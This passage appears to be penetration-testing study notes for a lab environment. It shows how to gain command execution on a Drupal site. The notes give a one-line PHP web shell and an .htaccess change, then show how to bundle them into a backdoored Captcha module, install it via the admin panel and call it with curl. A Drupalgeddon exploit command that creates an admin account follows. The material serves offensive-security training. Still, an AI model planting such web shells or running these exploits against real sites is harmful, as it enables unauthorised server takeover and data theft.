 #### Create a PHP web shell
```Shell
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

#### Create a `.htaccess` file to give ourselves access to the folder
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
This is necessary as Drupal denies direct access to the /modules folder

#### Copy both of these files to the captcha folder and create an archive
```Shell
mv shell.php .htaccess captcha
```

```Shell
tar cvf captcha.tar.gz captcha/
```

#### Click on` Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button. Browse to the backdoored Captcha archive and click `Install`.
![[Pasted image 20230220120048.png]]

#### Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands
```Shell
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

### Leveraging Known Vulnerabilities

Drupalgeddon vulnerabilities:
- [CVE-2014-3704](https://www.exploit-db.com/exploits/34992)
- [CVE-2018-7600](https://www.exploit-db.com/exploits/44448)
- CVE-2018-7602

#### Running `drupalgeddon.py` (CVE-2014-3704)
```Shell
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

#### Log in as an admin and use the previously mentioned process to obtain RCE
![[Pasted image 20230220121239.png]]
